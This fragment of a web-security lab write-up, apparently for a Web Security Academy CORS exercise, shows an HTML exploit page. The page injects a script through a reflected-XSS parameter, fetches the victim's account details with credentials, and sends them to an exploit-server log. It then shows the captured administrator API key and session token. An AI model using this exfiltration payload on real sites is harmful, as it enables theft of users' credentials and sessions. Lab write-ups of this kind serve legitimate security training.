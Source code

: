 Like the following

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Test</title>
</head>
<body>
    <script>
        document.location="http://stock.0a23001203e9d0d9c1d018f5009300f7.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();var url = 'https://0a23001203e9d0d9c1d018f5009300f7.web-security-academy.net/accountDetails';req.open('Get', url, true);req.withCredentials = true;req.send(null); req.onreadystatechange = function() {if (req.readyState == XMLHttpRequest.DONE) {fetch('https://exploit-0abe009903e9d069c124171b01ca0055.exploit-server.net/log?key'%2B req.responseText);}}%3c/script>&storeId=1";
    </script>
</body>
</html>
```

<p align="center" width="100%">
  <img src="image8.png" width="800" hight="500"/>
</p>

"username": "administrator", "email": "", "apikey": "MIdZ2IcCQ9hoY9591b7mfyWSdz3wrhpj", "sessions": [ "DASexN3FxL6bCEoGMVFE1oaUxCfRDgvH" ]}
